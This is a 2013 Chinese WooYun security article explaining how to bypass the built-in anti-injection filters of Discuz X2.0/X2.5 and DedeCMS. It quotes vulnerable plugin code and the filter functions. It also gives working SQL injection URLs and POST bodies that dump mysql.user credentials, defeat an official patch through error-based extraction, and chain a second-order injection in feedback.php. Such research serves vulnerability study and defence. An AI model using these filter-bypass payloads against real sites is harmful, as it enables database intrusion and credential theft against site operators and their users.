# 几种通用防注入程序绕过方法

2013/07/29 17:16 | [genxor](http://drops.wooyun.org/author/genxor "由 genxor 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

### 0x00 前言

* * *

目前主流的 CMS 系统当中都会内置一些防注入的程序，例如 Discuz、dedeCMS 等，本篇主要介绍绕过方法。

### 0x01 Discuz x2.0 防注入

* * *

#### 防注入原理

这里以 Discuz 最近爆出的一个插件的注入漏洞为例，来详细说明绕过方法。

漏洞本身很简单，存在于**/source/plugin/v63shop/config.inc.php**中的第 29 行 getGoods 函数中，代码如下所示

```
function getGoods($id){
      $query = DB::query('select * from '.DB::table('v63_goods').' where `id` ='.$id);
        $goods = DB::fetch($query);
        $goods['endtime2'] = date('Y-m-d',$goods['endtime']);
        $goods['price2'] = $goods['price'];
        if($goods['sort'] ==2){
            $goods['endtime2']= date('Y-m-d H:i:s',$goods['endtime']);
            $query = DB::query("select * from ".DB::table('v63_pm')." where gid='$goods[id]' order by id desc ");
            $last = DB::fetch($query);
            if(is_array($last)){
                $goods['price'] = $last['chujia'];
                $goods['uid']  = $last['uid'];
                $goods['username']  = $last['username'];
                $goods['pm'] = $last;
                if(time()+600> $goods['endtime']){
                    $goods['endtime'] = $last[time]+600;
                    $goods['endtime2']= date('Y-m-d H:i:s',$last[time]+600);
                }
            }
        }
        return $goods;
}

```

触发漏洞的入口点在**/source/plugin/v63shop/goods.inc.php**中的第 6 行和第 8 行，如图所示：  

下面可以构造如下请求触发漏洞了，如图所示：  

不过程序内置了一个 _do_query_safe 函数用来防注入，如图所示  

这里跟踪一下 _do_query_safe()函数的执行，它会对以下关键字做过滤，如图所示：



因为我们的 url 中出现了 union select，所以会被过滤掉。

#### 绕过方法

这里利用 Mysql 的一个特性绕过 _do_query_safe 函数过滤，提交如下 url：

```
http://localhost/discuzx2/plugin.php?id=v63shop:goods&pac=info&gid=1 and 1=2 union /*!50000select*/ 1,2,3,4,5,6,concat(user,0x23,password),8,9,10,11,12,13 from mysql.user 
```

这里我们跟踪一下，绕过的具体过程。它会将/**/中间的内容去掉，然后保存在$clean 变量中，其值为

```
select * from pre_v63_goods where `id` =1 and 1=2 union /**/ 1,2,3,4,5,6,concat(user,0x23,password),8,9,10,11,12,13 from mysql.user 
```

再进一步跟踪，它会将`/**/`也去掉，然对$clean 变量做过滤，如图所示

  此时$clean 值，如图所示  

此时$clean 变量中不在含有危险字符串，绕过 _do_query_safe 函数过滤，成功注入，截图如下：  

### 0x02 Discuz X2.5 防注入

* * *

#### 防注入原理

Discuz X2.5 版修改了防注入函数的代码，在**/config/config_global.php**中有如下代码，如图所示  

这里`$_config['security']['querysafe']['afullnote']` 默认被设置为 0，重点关注这一点。

这里跟踪一下失败的原因，如图所示：  

此时观察一下变量，_do_query_safe($sql)函数会将`/**/`中的内容去掉，然后存到$clean 中，如图所示：  

其实，程序执行到这里跟 Discuz X2.0 没有区别，$clean 的值都一样。但是关键在下面，如图所示：

  因为前面提到$_config['security']['querysafe']['afullnote']=’0’，所以这里不会替换`/**/`为空，并且它在后面会判断$clean 中是否会出现“/*”，如图所示：  

所以注入失败。

#### 绕过方法

在 Mysql 当中，定义变量用@字符，可以用 set @a=’abc’，来为变量赋值。这里为了合法的构造出一个单引号，目的是为了让 sql 正确，我们可以用@`'`放入 sql 语句当中，帮助我们绕过防注入程序检查。

这里利用如下方式绕过 _do_query_safe 函数过滤，如下所示：

```
http://localhost/discuz/plugin.php?id=v63shop:goods&pac=info&gid=@`'` union select @`'`,2,3,4,5,6,7,concat(user,0x3a,password),9,10,11,12,13,14 from mysql.user 
```

这里跟踪一下执行的过程，如图所示：

  这里有一个 if 判断，重点看这句

```
$clean = preg_replace("/'(.+?)'/s", '', $sql);

```

它会将$sql 中单引号引起来的字符串省略掉，所以我们可以用绕过 dede 防住 ids 的思路，利用

```
@`'` union select @`'` 
```

这样的方法，在下面的过滤中省掉 union select，这里跟踪一下，如图所示：  

这样便绕过了 _do_query_safe 函数检测，成功绕过防注入，如图所示：  

不过后来 Discuz 官方发布了一个修复补丁，但并没用从根本上解决问题。官方的修复代码如下：  

加了一个判断，过滤字符串中的@，但是始终没有修复根本问题，关键是上边的那个 if 判断会将单引号之间的内容（包括单引号）替换为空，代码如下：

```
if (strpos($sql, '/') === false && strpos($sql, '#') === false && strpos($sql, '-- ') === false) {
    $clean = preg_replace("/'(.+?)'/s", '', $sql);
}

```

这里我只要稍做一下变换就可以让@字符消失，从而绕过它的过滤，利用如下所示：

```
http://localhost/discuz/plugin.php?id=v63shop:goods&pac=info&gid=`'` or @`''` union select 1 from (select count(*),concat((select database()),floor(rand(0)*2))a from information_schema.tables group by a)b where @`'` 
```

这里我引入了`'`用来隐藏第一个@字符，并将第一个@`'`替换为@`''`，这样便可以替换掉第二个@，这里我们跟踪一下代码，如图所示：  

可以看到$clean 变为

```
select * from pre_v63_goods where `id` =`` 
```

成功绕过补丁，如图所示：

  不过这样做的代价是不能再使用 union select 了，只能通过报错获取数据。

### 0x03 DedeCMS 防注入

* * *

#### 防注入原理

这里我也以最近热点分析的 dedeCMS feedback.php 注入漏洞为例，分析如何绕过其防注入系统。不过在这之前，还得先提一下这个漏洞。

漏洞存在于/plus/feedback.php 中的第 244 行，代码如下所示

```
if($comtype == 'comments')
    {
        $arctitle = addslashes($title);
        $typeid = intval($typeid);
        $ischeck = intval($ischeck);
        $feedbacktype = preg_replace("#[⁰-9a-z]#i", "", $feedbacktype);
        if($msg!='')
        {
            $inquery = "INSERT INTO `#@__feedback`(`aid`,`typeid`,`username`,`arctitle`,`ip`,`ischeck`,`dtime`, `mid`,`bad`,`good`,`ftype`,`face`,`msg`)
                   VALUES ('$aid','$typeid','$username','$arctitle','$ip','$ischeck','$dtime', '{$cfg_ml->M_ID}','0','0','$feedbacktype','$face','$msg'); ";
            $rs = $dsql->ExecuteNoneQuery($inquery);
            if(!$rs)
            {
                ShowMsg(' 发表评论错误! ', '-1');
                //echo $dsql->GetError();
                exit();
            }
        }
    }
    //引用回复
    elseif ($comtype == 'reply')
    {
        $row = $dsql->GetOne("SELECT * FROM `#@__feedback` WHERE id ='$fid'");
        $arctitle = $row['arctitle'];
        $aid =$row['aid'];
        $msg = $quotemsg.$msg;
        $msg = HtmlReplace($msg, 2);
        $inquery = "INSERT INTO `#@__feedback`(`aid`,`typeid`,`username`,`arctitle`,`ip`,`ischeck`,`dtime`,`mid`,`bad`,`good`,`ftype`,`face`,`msg`)
                VALUES ('$aid','$typeid','$username','$arctitle','$ip','$ischeck','$dtime','{$cfg_ml->M_ID}','0','0','$feedbacktype','$face','$msg')";
        $dsql->ExecuteNoneQuery($inquery);
    } 
```

这里$title 变量未初始化，所以$title 可以作为可控变量，所以我们可以进一步控制$arctitle。跟踪发现$arctitle 被直接带入 SQL 语句当中，但是这里执行的 INSERT 语句入库之后会将前面 addslashes 转义的单引号在会员还原回去。进一步跟踪下面的代码，在第 268 行，如下所示

```
$row = $dsql->GetOne("SELECT * FROM `#@__feedback` WHERE id ='$fid'");
$arctitle = $row['arctitle']; 
```

这里的查询#@__feedback 表正式上面 INSERT 的那个表，arctitle 字段取出来放到$arctitle 变量当中，继续跟踪到第 273 行，这下豁然开朗了，

```
$inquery = "INSERT INTO `#@__feedback`(`aid`,`typeid`,`username`,`arctitle`,`ip`,`ischeck`,`dtime`,`mid`,`bad`,`good`,`ftype`,`face`,`msg`)
                VALUES ('$aid','$typeid','$username','$arctitle','$ip','$ischeck','$dtime','{$cfg_ml->M_ID}','0','0','$feedbacktype','$face','$msg')"; 
```

这里$arctitle 变量未作任何处理，就丢进了 SQL 语句当中，由于我们可以控制$title，虽然$arctitle 是被 addslashes 函数处理过的数据，但是被 INSERT 到数据库中又被还原了，所以综合起来这就造成了二次注入漏洞。

但是这里如何利用呢，通过跟踪代码发现，整个 dede 在整个过程中始终没有输出信息，所以我们无法通过构造公式报错来获取数据，但是进一步分析代码发现#@__feedback 表当中的 msg 字段会被输出。由于$arctitle 变量是可控的，所以我们可以通过构造 SQL 语句，将我们要执行的代码插入到 msg 字段当中，这样便可以输出执行的内容了。

#### 绕过方法

众所周知，dedeCMS 内置了一个 CheckSql()函数用来防注入，它是 80sec 开发的通用防注入 ids 程序，每当执行 sql 之前都要用它来检查一遍。其代码如下所示：

```
function CheckSql($db_string,$querytype='select')
    {
        global $cfg_cookie_encode;
        $clean = '';
        $error='';
        $old_pos = 0;
        $pos = -1;
        $log_file = DEDEINC.'/../data/'.md5($cfg_cookie_encode).'_safe.txt';
        $userIP = GetIP();
        $getUrl = GetCurUrl();

        //如果是普通查询语句，直接过滤一些特殊语法
        if($querytype=='select')
        {
            $notallow1 = "[⁰-9a-z@\._-]{1,}(union|sleep|benchmark|load_file|outfile)[⁰-9a-z@\.-]{1,}";

            //$notallow2 = "--|/\*";
            if(preg_match("/".$notallow1."/i", $db_string))
            {
                fputs(fopen($log_file,'a+'),"$userIP||$getUrl||$db_string||SelectBreak\r\n");
                exit("<font size='5' color='red'>Safe Alert: Request Error step 1 !</font>");
            }
        }

        //完整的 SQL 检查
        while (TRUE)
        {
            $pos = strpos($db_string, '\'', $pos + 1);
            if ($pos === FALSE)
            {
                break;
            }
            $clean .= substr($db_string, $old_pos, $pos - $old_pos);
            while (TRUE)
            {
                $pos1 = strpos($db_string, '\'', $pos + 1);
                $pos2 = strpos($db_string, '\\', $pos + 1);
                if ($pos1 === FALSE)
                {
                    break;
                }
                elseif ($pos2 == FALSE || $pos2 > $pos1)
                {
                    $pos = $pos1;
                    break;
                }
                $pos = $pos2 + 1;
            }
            $clean .= '$s$';
            $old_pos = $pos + 1;
        }
        $clean .= substr($db_string, $old_pos);
        $clean = trim(strtolower(preg_replace(array('~\s+~s' ), array(' '), $clean)));

        //老版本的 Mysql 并不支持 union，常用的程序里也不使用 union，但是一些黑客使用它，所以检查它
        if (strpos($clean, 'union') !== FALSE && preg_match('~(^|[^a-z])union($|[^[a-z])~s', $clean) != 0)
        {
            $fail = TRUE;
            $error="union detect";
        }

        //发布版本的程序可能比较少包括--,#这样的注释，但是黑客经常使用它们
        elseif (strpos($clean, '/*') > 2 || strpos($clean, '--') !== FALSE || strpos($clean, '#') !== FALSE)
        {
            $fail = TRUE;
            $error="comment detect";
        }

        //这些函数不会被使用，但是黑客会用它来操作文件，down 掉数据库
        elseif (strpos($clean, 'sleep') !== FALSE && preg_match('~(^|[^a-z])sleep($|[^[a-z])~s', $clean) != 0)
        {
            $fail = TRUE;
            $error="slown down detect";
        }
        elseif (strpos($clean, 'benchmark') !== FALSE && preg_match('~(^|[^a-z])benchmark($|[^[a-z])~s', $clean) != 0)
        {
            $fail = TRUE;
            $error="slown down detect";
        }
        elseif (strpos($clean, 'load_file') !== FALSE && preg_match('~(^|[^a-z])load_file($|[^[a-z])~s', $clean) != 0)
        {
            $fail = TRUE;
            $error="file fun detect";
        }
        elseif (strpos($clean, 'into outfile') !== FALSE && preg_match('~(^|[^a-z])into\s+outfile($|[^[a-z])~s', $clean) != 0)
        {
            $fail = TRUE;
            $error="file fun detect";
        }

        //老版本的 MYSQL 不支持子查询，我们的程序里可能也用得少，但是黑客可以使用它来查询数据库敏感信息
        elseif (preg_match('~\([^)]*?select~s', $clean) != 0)
        {
            $fail = TRUE;
            $error="sub select detect";
        }
        if (!empty($fail))
        {
            fputs(fopen($log_file,'a+'),"$userIP||$getUrl||$db_string||$error\r\n");
            exit("<font size='5' color='red'>Safe Alert: Request Error step 2!</font>");
        }
        else
        {
            return $db_string;
        }
    }

```

但通过跟踪这段代码发现，它有个特征就是会将两个单引号之间的内容用$s$替换，例如’select’会被替换为$s$，这里用两个@`'`包含敏感字，这样$clean 变量中就不会出现敏感字，从而绕过 CheckSql()函数检测。

这里可以设置 title 为如下代码，一方面绕过 ids 防注入代码检测，另一方面加一个#注释掉后面的代码，但是还要做一下变形，就是这个 char(@`'`)了。因为#@__feedback 的所有字段都被设置为 NOT NULL，而@`'`是一个变量，默认为 NULL，直接插入@`'`的话会报错，所以需要以 char(@`'`)的方法转换一下。

```
',char(@`'`),1,1,1,1,1,1,1,(SELECT user()))#,(1, 
```

跟踪代码，如图所示  

如下 SQL 语句

```
INSERT INTO `dede_feedback`(`aid`,`typeid`,`username`,`arctitle`,`ip`,`ischeck`,`dtime`, `mid`,`bad`,`good`,`ftype`,`face`,`msg`) VALUES ('1','1','游客','\',char(@`\'`),1,1,1,1,1,1,1,(SELECT user()))#,(1,','127.0.0.1','1','1364401789', '0','0','0','feedback','1','genxor'); 
```

被替换为了

```
insert into `dede_feedback`(`aid`,`typeid`,`username`,`arctitle`,`ip`,`ischeck`,`dtime`, `mid`,`bad`,`good`,`ftype`,`face`,`msg`) values ($s$,$s$,$s$,$s$,$s$,$s$,$s$, $s$,$s$,$s$,$s$,$s$,$s$); 
```

字符串中没有任何敏感字，成功绕过 CheckSql()函数检测。

POST 如下请求给 feedback.php，如下所示：

```
action=send&comtype=comments&aid=1&isconfirm=yes&feedbacktype=feedback&face=1&msg=genxor&notuser=1&typeid=1&title=',char(@`'`),1,1,1,1,1,1,1,(SELECT user()))#,(1, 
```

跟踪代码，实际执行的 SQL 语句跟踪变量如下所示：  

被插入数据库中的内容，如图所示：  

下面再 POST 如下内容给 feedback.php，

```
action=send&comtype=reply&aid=1&isconfirm=yes&feedbacktype=feedback&fid=50 
```

跟踪一下这里执行的 SQL 语句，如图所示  

所以 select user()执行了，并且可以作为 msg 字段输出。

### 0x04 总结

* * *

在写这篇文章之前，我分析了很多常用的 cms 系统的源码，包括 discuz、dedecms、phpwind、phpcms 等，只有在 discuz、dedecms 这两个系统中用到通用防注入，但是它们所覆盖的用户群已将相当庞大了。如果能在发现程序注入漏洞的情况下，这些绕过方法还是很有价值的。

**Tags:** [php](http://drops.wooyun.org/tag/php), [注入](http://drops.wooyun.org/tag/%e6%b3%a8%e5%85%a5), [绕过](http://drops.wooyun.org/tag/%e7%bb%95%e8%bf%87)

版权声明：未经授权禁止转载 [genxor](http://drops.wooyun.org/author/genxor "由 genxor 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [DVWA 中学习 PHP 常见漏洞及修复方法](http://drops.wooyun.org/papers/483)
*   [[代码审计]web 程序对客户端数据加解密带来的安全问题](http://drops.wooyun.org/papers/506)
*   [PHP 非字母数字の代码](http://drops.wooyun.org/tips/508)
*   [PHP 安全编码](http://drops.wooyun.org/tips/135)
*   [sqlmap 用户手册[续]](http://drops.wooyun.org/tips/401)
*   [MySql 注入科普](http://drops.wooyun.org/tips/123)